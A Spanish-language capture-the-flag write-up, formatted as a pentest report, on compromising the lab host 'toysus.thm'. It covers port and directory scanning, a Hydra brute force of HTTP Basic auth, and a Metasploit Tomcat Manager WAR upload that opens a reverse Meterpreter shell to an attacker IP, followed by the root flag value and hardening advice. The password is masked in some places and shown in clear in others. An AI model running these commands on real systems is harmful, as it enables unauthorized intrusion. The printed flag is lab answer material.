

# ToolRus

Se realizó una evaluación de seguridad sobre el objetivo identificado como `toysus.thm`, una máquina accesible a través de la red.  
El alcance incluyó:
- Reconocimiento de servicios expuestos.
- Enumeración de rutas web visibles y ocultas.
- Ataques de fuerza bruta para obtener credenciales de acceso.
- Explotación de vulnerabilidades en servicios mal configurados.
- Obtención de acceso remoto al sistema y recuperación de archivos sensibles.
  
El objetivo final fue demostrar el impacto de configuraciones inseguras en entornos de servidor Apache Tomcat.
# 2. Enumeración de Servicios

## 2.1 Escaneo de Puertos - Nmap

Se utilizó `nmap` para identificar los puertos abiertos y servicios en ejecución en el host.

**Comando ejecutado:**

```bash
nmap -sS toysus.thm
```

**Resultado:**

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-27 17:28 EDT
Nmap scan report for toysus.thm (10.10.219.248)
Host is up (0.18s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
1234/tcp open  hotline
8009/tcp open  ajp13

Nmap done: 1 IP address (1 host up) scanned in 2.29 seconds
```

**Interpretación de resultados:**

|Puerto|Estado|Servicio detectado|Interpretación|
|:-:|:-:|:-:|:-:|
|22/tcp|Abierto|SSH|Servicio para acceso remoto|
|80/tcp|Abierto|HTTP|Página web pública|
|1234/tcp|Abierto|hotline (mal identificado)|Servicio HTTP, Apache Tomcat|
|8009/tcp|Abierto|AJP13|Protocolo Apache JServ (Tomcat backend)|

**Notas:**

- El puerto 1234 expone Apache Tomcat a través de HTTP.
- El puerto 8009 expone AJP, un canal interno que puede ser explotado si no está protegido.

---

## 2.2 Enumeración Web - Gobuster

Se realizó un escaneo de rutas ocultas en la aplicación web mediante `gobuster`, utilizando una wordlist común de directorios.

**Comando ejecutado:**

```bash
gobuster dir -u http://toysus.thm -w /usr/share/seclists/Discovery/Web-Content/common.txt -x .php,.js
```

**Resultado relevante:**

```
/.hta                 (Status: 403)
/.hta.php             (Status: 403)
/.hta.js              (Status: 403)
/.htaccess            (Status: 403)
/.htpasswd            (Status: 403)
/.htaccess.php        (Status: 403)
/.htaccess.js         (Status: 403)
/.htpasswd.php        (Status: 403)
/.htpasswd.js         (Status: 403)
/guidelines           (Status: 301) [--> http://toysus.thm/guidelines/]
/index.html           (Status: 200)
/protected            (Status: 401)
/server-status        (Status: 403)
```

**Interpretación de resultados:**

|Ruta encontrada|Estado|Interpretación|
|:-:|:-:|:-:|
|`/guidelines`|301 (Redirección)|Ruta válida que podría contener información útil|
|`/protected`|401 (No autorizado)|Área protegida que requiere autenticación|
|`/server-status`|403 (Prohibido)|Endpoint de diagnóstico de Apache, accesible parcialmente|
|Archivos `.htaccess`, `.htpasswd`|403 (Prohibido)|Archivos de configuración visibles, posible fuga de información si mal configurados|

---

# **Notas de la enumeración**

- La ruta `/protected` sugiere que existe un sistema de autenticación para acceder a contenido restringido.
- El servidor devuelve errores 403 en archivos críticos de configuración `.htaccess` y `.htpasswd`, indicando que están protegidos, aunque el simple hecho de su presencia ya revela que hay un intento de controlar el acceso.
- La presencia de `/guidelines/` podría indicar documentación o pistas para acceder al sistema.

---
# 3. Fuerza Bruta de Credenciales

## 3.1 Objetivo
Acceder a la ruta protegida `/protected`, identificada en la enumeración anterior, mediante ataque de fuerza bruta sobre el mecanismo de autenticación HTTP Basic.



## 3.2 Ataque con Hydra
Se utilizó `hydra`, una herramienta de fuerza bruta de contraseñas, atacando la autenticación HTTP Basic del servidor.

**Comando ejecutado:**

```bash
hydra -l bob -P rockyou.txt toysus.thm http-get /protected
```

**Explicación del comando:**

- `-l bob`: Se especifica que el nombre de usuario es `bob`.
- `-P rockyou.txt`: Se utiliza el diccionario de contraseñas `rockyou.txt`.
- `http-get /protected`: Se ataca la autenticación HTTP Basic del recurso `/protected`.

---

## 3.3 Resultado del ataque

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak

[80][http-get] host: toysus.thm   login: bob   password: *****
1 of 1 target successfully completed, 1 valid password found
```

**Credenciales obtenidas:**

| Usuario | Contraseña |
| :-----: | :--------: |
|   bob   |   ++++++   |


**Interpretación:**

- Se logró comprometer exitosamente la autenticación HTTP utilizando un ataque de fuerza bruta.
- El uso de una contraseña débil (++++++) permitió el acceso.
    

---

# 4. Explotación Remota y Acceso al Sistema

## 4.1 Identificación de la vulnerabilidad


Al analizar el entorno expuesto en el puerto `1234`, se detectó:

- **Apache Tomcat Manager Application** disponible en `/manager/html`.
- Permiso de **subida de archivos WAR** a través del panel web de Tomcat Manager.

Con las credenciales (`bob:+++++++`) obtenidas, se procedió a explotar esta funcionalidad.

---

## 4.2 Explotación usando Metasploit

Se utilizó el módulo de Metasploit `exploit/multi/http/tomcat_mgr_upload` para subir un archivo malicioso (`.war`) que contiene un payload de conexión inversa (reverse shell).

**Parámetros configurados:**

|Opción|Valor|
|:-:|:-:|
|RHOSTS|10.10.219.248|
|RPORT|1234|
|TARGETURI|/manager|
|HTTPUSERNAME|bob|
|HTTPPASSWORD|bubbles|
|LHOST|10.6.17.22 (IP del atacante)|
|LPORT|4444|

**Comando de ejecución en Metasploit:**

```bash
use exploit/multi/http/tomcat_mgr_upload
set RHOSTS 10.10.219.248
set RPORT 1234
set TARGETURI /manager
set HttpUsername bob
set HttpPassword bubbles
set LHOST 10.6.17.22
set LPORT 4444
set PAYLOAD java/meterpreter/reverse_tcp
run
```

---

## 4.3 Resultado

```
[*] Started reverse TCP handler on 10.6.17.22:4444 
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying k2B4AVB1XjI61s...
[*] Executing k2B4AVB1XjI61s...
[*] Sending stage (58037 bytes) to 10.10.219.248
[*] Undeploying k2B4AVB1XjI61s ...
[*] Undeployed at /manager/html/undeploy
[*] Meterpreter session 1 opened (10.6.17.22:4444 -> 10.10.219.248:42280)
```

# 5. Obtención de la Bandera y Validación de Acces

## 5.1 Localización de la Bandera

Después de obtener acceso con `meterpreter`, se navegó hacia el directorio `/root`, donde se identificó el archivo `flag.txt`.

**Comandos ejecutados:**
```bash
meterpreter > cd /root 
meterpreter > ls
```
**Resultado:**
```
Listing: /root 
============== 
.flag.txt 
.bash_history 
.bashrc 
.profile 
.ssh/ 
.viminfo 
snap/
```

---

## 5.2 Lectura del contenido de `flag.txt`

**Comando ejecutado:**
```
meterpreter > cat flag.txt`
```

**Contenido de la bandera:**
```
ff1fc4a81affcc7688cf89ae7dc6e0e1
```

---

## 5.3 Validación del acceso
- Se confirmó la capacidad de leer archivos dentro del directorio `/root`, lo cual implica:
    - **Compromiso total del sistema**.
    - **Acceso con privilegios administrativos**.
    - **Pérdida completa de la confidencialidad e integridad** de la máquina objetivo.

---

# **6. Conclusiones y Recomendaciones**

## 6.1 Conclusiones

Durante la evaluación de seguridad realizada sobre `toysus.thm`, se lograron identificar y explotar múltiples vulnerabilidades críticas:
- **Mala configuración de Tomcat Manager**: Permitiendo autenticación básica débil y subida de archivos `.war` ejecutables.
- **Exposición de métodos HTTP peligrosos (PUT, DELETE)**: Que permiten la carga y potencial eliminación de recursos en el servidor web.
- **Puertos de servicio mal protegidos (AJP, Tomcat Admin)**: Expuestos a toda la red, sin control de acceso por firewall o reglas de red.
- **Uso de contraseñas débiles**: La contraseña `bubbles` fue encontrada mediante fuerza bruta usando un diccionario público (`rockyou.txt`).

La explotación de estas debilidades permitió al atacante obtener una **shell remota como usuario root** y capturar información sensible (`flag.txt`), evidenciando un compromiso completo del sistema.

---

## 6.2 Recomendaciones

Se recomienda implementar las siguientes medidas de mitigación para proteger el servidor:

|Medida|Descripción|
|---|---|
|Restringir acceso al Tomcat Manager|Mediante autenticación fuerte y filtrado por IP.|
|Deshabilitar métodos HTTP innecesarios|Remover PUT y DELETE si no son utilizados explícitamente.|
|Implementar reglas de firewall|Restringir el acceso a los puertos 8009 (AJP) y 1234 (Tomcat HTTP) sólo a fuentes autorizadas.|
|Mejorar las políticas de contraseñas|Implementar contraseñas robustas, mínimo 12 caracteres con complejidad.|
|Actualizar Apache Tomcat|A una versión más reciente que corrija vulnerabilidades conocidas.|
|Separación de privilegios|Ejecutar los servicios como usuarios no privilegiados, nunca como `root`.|
